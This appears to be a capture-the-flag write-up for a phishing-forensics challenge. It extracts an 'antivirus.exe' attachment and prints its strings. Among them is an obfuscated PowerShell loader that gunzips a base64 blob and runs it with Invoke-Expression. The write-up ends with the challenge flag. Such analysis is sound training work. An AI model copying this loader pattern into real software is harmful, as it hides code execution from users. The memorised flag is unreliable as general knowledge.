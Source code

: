 # Computer Has Virus

---

```
Computer Has Virus

300

Help! I just fell victim to a phishing attack! I have attached the email they sent me. See if you can recover their secrets!

author: RJCyber
```
---

## Solution

We know that if we open the `URGENT.eml` file, we can find that there is an attachment named `antivirus.exe`.

We can try to extract the `.eml` file using `munpack` to get the file.

After getting `antivirus.exe`, we can try to examine the file using `strings` and find something interesting

```
!This program cannot be run in DOS mode.
JU$g
.text
`.rsrc
@.reloc
*b(!
*B(,
Yh}
1P      os
1&      os
$compressed = 'H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA=='; $bytes = [System.Convert]::FromBase64String($compressed); $stream = New-Object IO.MemoryStream(, $bytes); $decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); $reader = New-Object IO.StreamReader($decompressed); $obfuscated = $reader.ReadToEnd(); Invoke-Expression $obfuscated
BSJB
v4.0.30319
```

There are compressed variables that are in base64 format:

`H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA==`

let's try again on CyberChef and see what we can find.

![flag](image.png)

---

flag: `CYBORG{S3cur1ty_thr0ugh_Obscur1ty_1s_n0t_v3ry_s3cur3!}`